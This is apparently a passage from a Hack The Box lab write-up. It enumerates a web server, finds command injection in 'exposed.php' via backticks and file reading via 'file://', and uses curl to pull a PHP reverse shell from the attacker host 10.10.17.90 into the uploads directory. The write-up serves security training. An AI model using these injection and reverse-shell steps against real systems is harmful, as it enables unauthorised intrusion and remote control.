 ```terminal
 🏁  Press [ENTER] to use the Scan Management Menu™                                                                                                           
──────────────────────────────────────────────────                                                                                                            
200      GET        7l       15w      144c http://10.10.10.24/                                                                                                
301      GET        7l       13w      194c http://10.10.10.24/uploads => http://10.10.10.24/uploads/                                                          
200      GET       19l       41w        0c http://10.10.10.24/exposed.php                                                                                     
[####################] - 9m    175300/175300  0s      found:3       errors:0                                                                                  
[####################] - 9m    175300/175300  300/s   http://10.10.10.24/ 
```

We found `uploads` directory and `exposed.php`.

![](2.png)

We can't see what's on the uploads page but on `exposed.php` it seems we can request web page.

I tried injection a command with `;id;` but it seems there is a filter.

![](3.png)

Next i tried the backtick \`id\` and managed to get the following.

![](4.png)

We got a way to execute command.

Before getting a reverse shell, a technique worth mentioning is reading file using `file://{file}`.

![](5.png)

With that, not only we have a command injection vulnerability, but also we can read file.

Now let's see what does `exposed.php` uses to request the pages, and for that we can submit a random option and see what happens.

![](6.png)

We can see that curl is the command being used, with that let's move to the next part.

## **Foothold**

For a reverse shell, we can upload a php reverse shell to the `uploads` directory since it's writable by our user `http://10.10.17.90/htbshell.php -o uploads.php`

![](7.png)

No we setup a listener and request our php reverse shell.

![](8.png)
